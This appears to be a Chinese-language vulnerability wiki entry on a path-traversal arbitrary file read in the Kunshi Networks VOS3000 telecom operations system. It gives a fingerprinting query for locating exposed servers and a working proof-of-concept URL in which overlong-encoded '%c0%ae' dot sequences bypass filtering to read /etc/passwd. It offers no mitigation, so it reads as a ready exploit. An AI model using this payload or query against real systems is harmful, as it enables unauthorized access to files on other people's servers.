


昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞¶
漏洞描述¶
昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞
漏洞影响¶
昆石网络 VOS3000虚拟运营支撑系统
网络测绘¶
app="VOS-VOS3000"
漏洞复现¶
登录页面

验证POC
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
